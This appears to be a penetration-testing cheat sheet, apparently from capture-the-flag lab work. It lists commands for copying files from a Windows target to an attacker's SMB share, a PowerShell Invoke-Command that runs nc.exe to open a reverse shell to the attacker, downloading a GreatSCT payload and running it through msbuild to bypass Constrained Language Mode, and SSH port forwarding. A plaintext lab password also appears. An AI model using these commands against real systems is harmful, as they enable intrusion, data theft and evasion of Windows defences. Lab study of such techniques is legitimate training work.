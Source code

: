 
# send a post request via curl  with param id and value of 1 
curl -s IP:PORT/path.php -X POST -d "id=1"

# smb server file transfer from target (windows) to attacker(linux)
sudo impacket-smbserver -smb2support kali-share -username kali -password kali .			 			 (on attacker pc)
net view \\attacker-ip-addr																				(on target pc)
net use \\10.10.14.20\kali-share /u:kali kali   														(on target pc)
copy backup.zip \\10.10.14.20\kali\ 																(on target pc)


# smb server file transfer from attacker(linux) to target (windows) 
sudo impacket-smbserver -smb2support kali-share -username kali -password kali . 		  			(on attacker pc)
net view \\attacker-ip-addr																			(on target pc)
net use \\10.10.14.20\kali-share /u:kali kali   							 						(on target pc)
copy \\10.10.14.20\kali-share\file  C:\file-path\out-file											(on target pc)


# use powershell‘s Invoke-Command with credentials to get a reverse shell (setup nc -lvnp 1338 on attacker machine before launching last command)
C:\> powershell
PS C:\> $username = 'batman'
PS C:\> $password = 'Zx^#QZX+T!123'
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\> Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c "C:\windows\system32\spool\drivers\color\nc.exe" -e cmd.exe 10.10.14.20 1338 } 

# download a GreatSCT generated payload and execute via msbuild to bypass Constrained language mode in windows target
powershell wget 10.10.14.20/arkham.xml -O a.xml 
cmd /c C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe a.xml

# SSH Local Port Forwarding  (example below: using our local port 8888 to access port 52846 of target machine 10.129.135.151 using ssh creds for user jimmy. Now  we navigate to http://127.0.0.1:8888 to access machine )
ssh –L port:destination_host:destination_port username@IP
ssh -L 8888:127.0.0.1:52846 jimmy@10.129.135.151 -v
